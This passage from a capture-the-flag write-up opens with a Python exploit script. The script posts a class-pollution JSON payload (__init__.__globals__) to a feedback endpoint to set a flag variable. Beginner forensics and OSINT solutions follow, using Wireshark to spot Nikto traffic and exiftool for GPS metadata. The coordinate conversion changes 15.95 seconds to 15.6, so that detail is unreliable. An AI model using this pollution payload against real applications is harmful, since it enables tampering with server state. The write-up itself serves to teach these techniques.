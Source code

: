 ```python
    p = s.post(f"https://{host}:{port}/login", data=payload)

    # this is a "regular POST body" as it is used in a normal case inside the app; we do not want to use it like that though...
    '''
    json_body = {
                "title": "title",
                "content": "content",
                "rating": "rating",
                "referred": "referred"
    }
    '''
    #  we want to set the global var "flag" to true
    json_body = json.loads(
        '{"__init__":{"__globals__":{"flag":"true"}}}')

    headers = {
        "Content-Type": "application/json"
        }

    s.post(f"https://{host}:{port}/save_feedback", json=json_body, headers=headers)

    x = s.get(f"https://{host}:{port}/get_flag")

    response = x.text

    print(response)
```

## Baby's First Forensics

category: forensics, beginner

"They've been trying to breach our infrastructure all morning! They're trying to get more info on our covert kangaroos! We need your help, we've captured some traffic of them attacking us, can you tell us what tool they were using and its version?"

after opening the capture file in wireshark and looking through the "Endpoints" and "Conversations" view, I could see quite quickly that the attacker spamming all the TCP traffic had to be the machine with the IP "172.16.17.131". furthermore, most of the application protocols used was http.

with a filter `http and ip.src_host == 172.16.17.131` one of the first requests showed "nikto 2.1.6" as one of the HTTP headers, which yielded the flag.

## offtheramp

category: osint, beginner

"That looks like a pretty cool place to escape by boat, EXAMINE the image and discover the name of this structure."

the given jpeg yielded the following interesting metadata entry after running `exiftool offtheramp.jpeg`:

`38 deg 9' 15.95" S, 145 deg 6' 29.69" E`

which are coordinates which just had to be converted to

`38°09'15.6"S 145°06'29.7"E`

so that google maps could understand them.

this showed a view from a hill right on to a place called "Olivers Hill Boat Ramp" in google maps.



